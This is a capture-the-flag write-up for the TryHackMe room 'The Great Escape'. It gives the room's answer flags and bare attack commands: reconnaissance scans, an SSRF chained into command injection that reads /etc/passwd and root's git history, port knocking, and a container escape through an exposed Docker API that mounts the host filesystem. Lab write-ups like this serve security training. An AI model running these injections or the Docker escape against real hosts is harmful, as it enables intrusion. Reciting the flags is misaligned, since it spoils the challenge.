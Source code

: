 # <div align="center">[The Great Escape](https://tryhackme.com/r/room/thegreatescape)</div>
<div align="center">Our devs have created an awesome new site. Can you break out of the sandbox?</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/aff860f5-44b7-4b8e-bb43-0f47a4c04e23" height="200"></img>
</div>


## Task 2. A Simple Webapp
Start off with a simple webapp. Can you find the hidden flag?
### Find the flag hidden in the webapp

```
THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```
* ```nmap -sSCV -p- <IP>```
* ```gobuster dir -f -u http://<IP> -w /usr/share/wordlists/dirb/big.txt```
* ```curl http://<IP>/.well-known/security.txt```
* ```curl -I http://<IP>//api/fl46```

## Task 3. Root! Root?
```
THM{0cb4b947043cb5c0486a454b75a10876}
```
```
curl http://<IP>/robots.txt
http://<IP>/exif-util

http://<IP>/api/exif?url=http://api-dev-backup:8080
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat /etc/passwd
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls ~
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat ~/dev-note.txt
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls -la /root
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root log
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root show a3d30a7d0510dc6565ff9316e3fb84434916dee8
```

## Task 4. The Great Escape
You thought you had root. But the root on a docker container isn't all that helpful. Find the secret flag

Find the real root flag
```
THM{c62517c0cad93ac93a92b1315a32d734}
```
```
cd /opt
sudo git clone https://github.com/grongor/knock.git
cd knock
./knock <IP> 42 1337 10420 6969 63000
nmap <IP> -p 2375
sudo nano /etc/docker/daemon.json
sudo systemctl stop docker
sudo systemctl start docker
docker -H <IP>:2375 images
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
exit
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt bash
cd /root
ls
cat flag.txt
```
